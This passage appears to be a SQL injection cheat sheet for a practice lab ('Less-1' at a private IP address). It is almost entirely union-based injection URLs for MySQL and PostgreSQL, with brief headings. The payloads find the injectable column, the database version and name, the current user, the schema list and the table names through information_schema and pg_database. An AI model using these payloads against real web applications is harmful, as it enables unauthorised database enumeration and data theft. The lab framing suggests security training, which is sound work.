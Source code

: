 #### Finding what column is injectable

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, 3`

(using the same amount of columns you got on the previous step)

**postgresql**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, NULL`

(using the same amount of columns you got on the previous step)

 one of the columns will be printed with the respective number

---

#### Finding version

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, version()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL, NULL, version()` 


#### Finding database name

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1,2, database()`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select NULL,NULL, database()` 


#### Finding usernames logged in

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, current_user()`


#### Finding databases

**mysql**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata`

**postgres**

`http://192.168.1.104/Less-1/?id=-1 union select 1, 2, datname from pg_database`

#### Finding table names from a database

**mysql**

```
http://192.168.1.104/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"
```
